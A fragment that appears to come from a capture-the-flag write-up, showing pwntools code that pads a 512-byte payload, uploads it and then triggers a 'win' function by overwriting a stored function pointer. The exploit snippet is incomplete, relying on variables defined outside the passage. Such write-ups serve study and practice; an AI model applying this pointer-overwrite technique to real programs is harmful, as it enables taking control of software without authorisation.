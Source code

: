 		padding = b'\x00' * (512 - 4 - 2 - 4 - 16 - 2)
		
		payload = header + checksum + skip + need_to_win + tail + padding
		

		p.sendline(b'U')
		p.sendlineafter(b'>', payload)
		p.recvline()
		```
	* goto win since we replace the runfunc addr to win func addr
	
		```
		p.sendline(b'E')
		```



